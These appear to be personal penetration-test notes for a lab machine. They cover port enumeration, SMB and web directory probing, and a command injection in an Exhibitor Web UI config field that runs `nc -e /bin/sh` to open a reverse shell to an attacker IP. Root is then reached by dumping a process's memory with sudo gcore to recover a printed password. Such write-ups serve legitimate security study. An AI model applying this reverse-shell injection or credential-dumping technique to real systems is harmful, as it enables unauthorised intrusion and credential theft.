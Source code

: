 ### Enumeration
```
IP=192.168.158.98
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,139,445,631,2181,2222,8080,8081,37753 -A $IP
```
#### Ports 
- 22
	- OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
- 139
	- Samba smbd 3.X - 4.X
- 445
	- Samba smbd 4.9.5-Debian
- 631
- 2181
	- Zookeeper 3.4.6-1569965 (Built on 02/20/2014)
- 2222
	- OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
- 8080
	- Jetty 1.0
- 8081
	- nginx 1.14.2
- 37753
	- Java RMI
- OS: Linux
### Foothold
- 445
	- smbclient -N -L //$IP
		- Login successful
		- shares
			- print$
			- IPC$
	- nmap --script smb-vuln* -p139,445 $IP
- 8080
	- ![[Pasted image 20240627090510.png]]
	- dirsearch -u http://$IP:8080
		- `/application.wadl`
			- xml file with exhibitor pathing
	- dirsearch -u http://$IP:8080/exhibitor/v1
		- nothing
	- Config
		- ![[Pasted image 20240627090946.png]]
		- Uses log4j
	- Version
		- exhibitor 1.0
			- Exhibitor Web UI 1.7.1 - Remote Code Execution
				- In config tab, edit java.env script field
					- `$(/bin/nc -e /bin/sh 192.168.45.195 8000 &)`
					- Then we get a reverse shell back
- 8081
	- Redirects to: http://192.168.158.98:8080/exhibitor/v1/ui/index.html
	- ![[Pasted image 20240627090521.png]]
	- dirsearch -u http://$IP:8081
### PE
#### Linux
- Charles
	- id
		- uid=1000(charles) gid=1000(charles) groups=1000(charles)
	- sudo -l
		- (ALL) NOPASSWD: /usr/bin/gcore
		- GTFO Bin
			- `sudo gcore $PID`
			- Tried commands and did not work
			- `usage:  gcore [-a] [-o filename] pid`
			- ps -aux
			- find interesting process
				- /usr/bin/passwo  -  484
			- sudo gcore 484
			- strings core.484
				- ![[Pasted image 20240627094439.png]]
			- su root
				- ClogKingpinInning731 
				- successful
	- uname -a
	- capabilities
	- suid
	- linpeas
### Lessons Learned